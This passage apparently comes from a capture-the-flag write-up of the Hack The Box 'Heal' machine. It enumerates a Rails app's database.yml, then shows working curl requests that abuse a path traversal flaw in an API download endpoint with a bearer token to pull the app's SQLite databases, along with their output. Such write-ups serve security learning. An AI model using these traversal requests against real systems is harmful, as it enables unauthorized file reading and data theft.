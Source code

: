 I’ll note users ron and ralph.

#### Rails Enumeration

[This guided](https://guides.rubyonrails.org/configuring.html) from Rails talks about how to configure a Rails application. It starts with `config/application.rb`. I’ll find that two directories up from the current directory:

![image-20250514070426689](/img/image-20250514070426689.png)

There’s nothing too interesting here, but it does give me a reference point to work from.

There’s a “Configuring a Database” section, which references `config/database.yml`. I’ll grab that:

```

# SQLite. Versions 3.8.0 and up are supported.
#   gem install sqlite3
#
#   Ensure the SQLite 3 gem is defined in your Gemfile
#   gem "sqlite3"
#
default: &default
  adapter: sqlite3
  pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
  timeout: 5000

development:
  <<: *default
  database: storage/development.sqlite3

# Warning: The database defined as "test" will be erased and
# re-generated from your development database when you run "rake".
# Do not set this db to the same as development or production.
test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3

```

There are two `.sqlite3` files mentioned. I’ll download both using `curl`:

```

oxdf@hacky$ curl --path-as-is -s -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' --output development.sqlite3
oxdf@hacky$ file development.sqlite3
development.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2
oxdf@hacky$ curl --path-as-is -s -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' 'http://api.heal.htb/download?filename=../../storage/test.sqlite3' --output test.sqlite3
oxdf@hacky$ file test.sqlite3
test.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2

```
